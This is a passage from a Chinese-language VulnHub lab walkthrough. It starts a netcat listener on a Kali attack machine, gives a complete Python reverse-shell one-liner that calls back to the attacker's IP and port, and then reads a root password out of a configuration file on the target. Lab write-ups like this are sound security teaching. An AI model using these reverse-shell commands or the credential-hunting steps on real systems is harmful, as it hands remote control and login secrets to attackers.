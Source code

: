 ```
kali做好监听。
nc -lvvp 7777
```

![image-20241207190032306](vulnhub靶场实战/image-20241207190032306.png)	

```
估计是操作系统做了安全加固，bash的反弹shell尝试不行，且nc的反弹shell也不行，那么只能使用python的反弹shell,里面填入攻击机的ip和端口。
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20241207192341811](vulnhub靶场实战/image-20241207192341811.png)	

```
原本发现在/var/html有这么个文件，但是结果发现/var也有这个配置文件。
```

![image-20241207192717896](vulnhub靶场实战/image-20241207192717896.png)	

```
查看这个文件，又发现有一个root的密码，看看能否登录。
root@ISIntS
```
